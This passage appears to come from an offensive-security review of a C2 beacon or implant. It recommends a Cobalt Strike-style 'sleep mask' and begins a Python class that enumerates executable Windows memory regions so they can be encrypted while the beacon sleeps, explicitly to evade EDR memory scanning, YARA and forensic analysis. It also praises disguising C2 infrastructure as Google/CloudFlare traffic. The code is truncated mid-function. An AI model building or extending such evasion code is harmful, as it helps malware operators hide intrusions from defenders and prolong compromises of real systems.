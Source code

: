 **Impact:** ✅ **C2 infrastructure hidden**, appears as traffic to Google/CloudFlare

---

### ISSUE #11: No Sleep Mask = Memory Dumping During Sleep

**Location:** Everywhere sleep is called (49 instances)  
**Severity:** 🟠 HIGH  
**Risk:** Memory dumped while sleeping reveals everything

**Why This is CRITICAL:**
1. ❌ **Beacon sleeps for minutes/hours** = long exposure window
2. ❌ **Memory scanners** run during sleep
3. ❌ **EDR dumps processes** periodically
4. ❌ **All secrets exposed** in cleartext

**Research Reference:**
- **"Sleep Mask" - Cobalt Strike 4.2 (2020)**
- **"Gargoyle" - Josh Lospinoso (2017)** - Timer-based ROP
- **"Ekko" - mgeeky (2022)** - Modern implementation
- **APT groups** - Standard practice since 2018

**Solution (Cobalt Strike's Approach):**
```python
class SleepMask:
    """
    Sleep mask - encrypt memory during sleep
    
    Research:
    - Cobalt Strike's Sleep Mask (2020)
    - Gargoyle technique (2017)
    - Ekko (2022)
    - APT29 dormancy techniques
    
    Protection against:
    - Memory dumps during sleep
    - EDR memory scanning
    - Forensic analysis
    - YARA scanning
    """
    
    def __init__(self):
        self.mask_key = secrets.token_bytes(32)
        self.regions_to_encrypt = []
        
        if sys.platform == 'win32':
            self.kernel32 = ctypes.windll.kernel32
            self.ntdll = ctypes.windll.ntdll
            
            # Get all executable regions
            self._enumerate_executable_regions()
    
    def _enumerate_executable_regions(self):
        """Find all executable memory regions to encrypt"""
        address = 0
        while address < 0x7FFFFFFFFFFF:
            mbi = MEMORY_BASIC_INFORMATION()
            size = self.kernel32.VirtualQuery(
                address,
                ctypes.byref(mbi),
                ctypes.sizeof(mbi)
            )
            
            if size == 0:
                break
            
```